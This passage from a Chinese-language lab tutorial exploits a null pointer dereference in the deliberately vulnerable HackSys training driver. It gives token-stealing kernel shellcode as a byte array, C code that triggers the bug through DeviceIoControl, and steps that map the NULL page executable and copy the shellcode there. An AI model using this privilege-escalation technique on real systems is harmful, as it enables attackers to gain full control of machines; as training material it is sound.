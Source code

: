 ```
const uint8_t buffer[] = `{`
  0x60, 0x64, 0xa1, 0x24, 0x01, 0x00, 0x00, 0x8b, 0x80, 0x50,
  0x01, 0x00, 0x00, 0x81, 0xb8, 0x7c, 0x01, 0x00, 0x00, 0x63,
  0x6d, 0x64, 0x2e, 0x74, 0x0d, 0x8b, 0x80, 0xb8, 0x00, 0x00,
  0x00, 0x2d, 0xb8, 0x00, 0x00, 0x00, 0xeb, 0xe7, 0x89, 0xc3,
  0x83, 0xb8, 0xb4, 0x00, 0x00, 0x00, 0x04, 0x74, 0x0d, 0x8b,
  0x80, 0xb8, 0x00, 0x00, 0x00, 0x2d, 0xb8, 0x00, 0x00, 0x00,
  0xeb, 0xea, 0x8b, 0x88, 0xfc, 0x00, 0x00, 0x00, 0x89, 0x8b,
  0xfc, 0x00, 0x00, 0x00, 0x61, 0xc3, 0xff, 0xff, 0xff, 0xff,
`}`;
```

接下来，就需要编写我们的DLL。类似于Windows 7漏洞，需要通过DeviceloControl调用来触发空指针引用：

```
HANDLE driverHandle = CreateFileA(
    "\\.\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    0,
    NULL,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    NULL
);

char exploit[1024];

memset(exploit, 'A', sizeof(exploit));
DeviceIoControl(
    driverHandle,
    HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
    exploit,
    sizeof(exploit),
    NULL,
    0,
    NULL,
    NULL
);
```

然而，在我们触发之前，需要确保Shellcode已经到位。首先通过利用VirualProtect来确保NULL页被设置为RWX：

```
DWORD oldProt;

// Make sure that NULL page is RWX
VirtualProtect(0, 4096, PAGE_EXECUTE_READWRITE, &amp;oldProt);
```

接下来，将Shellcode复制到地址100h：

```
// Copy our shellcode to the NULL page at offset 0x100
RtlCopyMemory((void*)0x100, shellcode, 256);
```

